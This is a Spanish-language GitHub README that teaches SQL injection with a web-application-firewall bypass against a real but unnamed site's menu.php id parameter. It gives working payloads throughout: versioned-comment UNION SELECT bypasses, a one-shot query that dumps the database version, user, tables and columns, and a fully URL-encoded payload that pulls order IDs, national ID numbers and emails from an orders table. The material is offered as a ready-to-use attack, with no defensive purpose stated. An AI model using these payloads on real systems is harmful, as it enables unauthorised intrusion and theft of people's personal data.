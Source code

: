 # SQLi-WAF-bypass
Bypass from 406 status code to 200 OK

Esto no suele ser muy comun, pero voy a enseñar como explotarlo, que payloads usar, como dumpear toda la información etc...

Primero debemos encontrar un target por privacidad no voy a enseñar el enlace de la pagina.

Si intentamos provocar un error en la query podremos ver que nos devuelve blank page en la pagina, por lo tanto es vulnerable a error-based SQLi.

En mi caso he probado una comilla simple (').

![image](https://github.com/user-attachments/assets/2950abd7-39cd-442d-b14f-88d2975e79c4)

Y la pagina nos devuelve lo siguiente:

![image](https://github.com/user-attachments/assets/40f92814-2329-445d-a83e-af95b4f812b1)

Una vez sabemos esto voy a proceder a ver si es vulnerable a ORDER BY.

Y es vulnerable, en este caso la pagina dispone de 14 columnas.

![image](https://github.com/user-attachments/assets/d14488d5-47d3-478b-b671-3c177410aed5)

Una vez tenemos las columnas procedo a hacer UNION SELECT. Pero veremos que al hacer el union nos devuelve code status 406 (not acceptable)

![image](https://github.com/user-attachments/assets/8cfac83a-d67b-4361-bf74-bfdbc5b7c09a)

Para bypassear esta restricción usaremos el siguiente payload: /*!50000%55nIoN*/ /*!50000%53eLeCt*/

Y veremos que ahora nos carga la pagina.

![image](https://github.com/user-attachments/assets/926087d7-5bb9-4e6a-98cf-a1836c1f974f)

Pero no encontraremos ninguna columna para inyectar, para eso deberemos añadir el "-" en el id= por ejemplo: https://"dominio"/menu.php?id=-7' /*!50000%55nIoN*/ /*!50000%53eLeCt*/ 1,2,3,4,5,6,7,8,9,10,11,12,13,14-- -

Una vez hecho podremos ver el número 2 que se refiere a la columna 2 de nuestro UNION, por lo tanto debemos poner nuestro payload ahí para poder extraer información.

![image](https://github.com/user-attachments/assets/32cf0363-5a71-4e39-9a78-302d66a08b2b)

Para dumpear la version,usuario,nombre de la base de datos, columnas, tablas etc... Todo en uno he usado este payload:

concat/*!(unhex(hex(concat/*!(0x3c2f6469763e3c2f696d673e3c2f613e3c2f703e3c2f7469746c653e,0x223e,0x273e,0x3c62723e3c62723e,unhex(hex(concat/*!(0x3c63656e7465723e3c666f6e7420636f6c6f723d7265642073697a653d343e3c623e3a3a207e7472306a416e2a2044756d7020496e204f6e652053686f74205175657279203c666f6e7420636f6c6f723d626c75653e28574146204279706173736564203a2d20207620312e30293c2f666f6e743e203c2f666f6e743e3c2f63656e7465723e3c2f623e))),0x3c62723e3c62723e,0x3c666f6e7420636f6c6f723d626c75653e4d7953514c2056657273696f6e203a3a20,version(),0x7e20,@@version_comment,0x3c62723e5072696d617279204461746162617365203a3a20,@d:=database(),0x3c62723e44617461626173652055736572203a3a20,user(),(/*!12345selEcT*/(@x)/*!from*/(/*!12345selEcT*/(@x:=0x00),(@r:=0),(@running_number:=0),(@tbl:=0x00),(/*!12345selEcT*/(0) from(information_schema./**/columns)where(table_schema=database()) and(0x00)in(@x:=Concat/*!(@x, 0x3c62723e, if( (@tbl!=table_name), Concat/*!(0x3c666f6e7420636f6c6f723d707572706c652073697a653d333e,0x3c62723e,0x3c666f6e7420636f6c6f723d626c61636b3e,LPAD(@r:=@r%2b1, 2, 0x30),0x2e203c2f666f6e743e,@tbl:=table_name,0x203c666f6e7420636f6c6f723d677265656e3e3a3a204461746162617365203a3a203c666f6e7420636f6c6f723d626c61636b3e28,database(),0x293c2f666f6e743e3c2f666f6e743e,0x3c2f666f6e743e,0x3c62723e), 0x00),0x3c666f6e7420636f6c6f723d626c61636b3e,LPAD(@running_number:=@running_number%2b1,3,0x30),0x2e20,0x3c2f666f6e743e,0x3c666f6e7420636f6c6f723d7265643e,column_name,0x3c2f666f6e743e))))x)))))*/

Este payload esta hecho por: tr0jan WAF

En este caso se vería así:
![image](https://github.com/user-attachments/assets/8b701d24-0d54-47e8-ac69-5b1a22193aa4)

Seguidamente para dumpear deberíamos añadir el nombre de la base de datos, el nombre de la tabla y las columnas a dumpear:

En este caso el paylaod quedaría asi:

https://"dominio"/menu.php?id=-7' /*!50000%55nIoN*/ /*!50000%53eLeCt*/ 1,(SELECT(@x)FROM(SELECT(@x:=0x00) ,(SELECT(@x)FROM(nombrebasededatos.pedidos)WHERE(@x)IN(@x:=CONCAT(0x20,@x,id_pedido,0x3a,dni_pedido,0x3a,email_pedido,0x3c62723e))))x),3,4,5,6,7,8,9,10,11,12,13,14-- -

Pero si lo ejecutamos nos dará error ya que el WAF elimina las setencias como WHERE, SELECT, FROM, CONCAT etc...

![image](https://github.com/user-attachments/assets/129ca0be-4734-4de8-b48a-eded50e6a2ae)


Por lo tanto tenemos que hard URL encodear todo el payload.

Quedando el payload así:
https://"dominio"/menu.php?id=-7' /*!50000%55nIoN*/ /*!50000%53eLeCt*/ 1,%28%53%45%4c%45%43%54%28%40%78%29%46%52%4f%4d%28%53%45%4c%45%43%54%28%40%78%3a%3d%30%78%30%30%29%20%2c%28%53%45%4c%45%43%54%28%40%78%29%46%52%4f%4d%28%28%6e%6f%6d%62%72%65%62%61%73%65%64%65%64%61%74%6f%73%29%2e%70%65%64%69%64%6f%73%29%57%48%45%52%45%28%40%78%29%49%4e%28%40%78%3a%3d%43%4f%4e%43%41%54%28%30%78%32%30%2c%40%78%2c%69%64%5f%70%65%64%69%64%6f%2c%30%78%33%61%2c%64%6e%69%5f%70%65%64%69%64%6f%2c%30%78%33%61%2c%65%6d%61%69%6c%5f%70%65%64%69%64%6f%2c%30%78%33%63%36%32%37%32%33%65%29%29%29%29%78%29,3,4,5,6,7,8,9,10,11,12,13,14-- -

![image](https://github.com/user-attachments/assets/2d8c15cd-ea09-45a5-9133-6f54e5330237)

Y esto sería todo, perdonad mi edición de Paint.
